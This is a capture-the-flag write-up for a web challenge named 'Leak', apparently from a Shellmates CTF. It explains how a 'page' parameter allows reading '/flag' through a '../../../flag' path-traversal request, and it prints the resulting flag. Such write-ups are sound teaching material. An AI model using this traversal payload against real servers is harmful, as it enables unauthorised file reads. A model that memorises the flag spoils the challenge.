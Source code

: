 # Leak

## Write-Up

When checking the description, here is what we can find :

```
the flag is in /flag, can you get it?
```

So our first intuition is to check for the `/flag` route, but unfortunatly, we get an error :

```
Hmmm I can't find that.
```

But when we see closly, we can find that the sent html page is not sent by checking the route but by checking a parameter called `page` :

```
http://leak.web-server.challs.ctf.shellmates.club/?page=index.html
```

Further more, when trying to access the flag using that parameter, here is what we get :

```
http://leak.web-server.challs.ctf.shellmates.club/?page=/flag
```

```
Page '/ctf/app/templates//flag' does not exist
```

So, the solution is to use that parameter and navigate back the root `/` folder, then look for the flag :

```
leak.web-server.challs.ctf.shellmates.club/?page=../../../flag
```

After requesting that, we get `flag` file containing the flag

## Flag

shellmates{LFIIII_FTW_3287964286}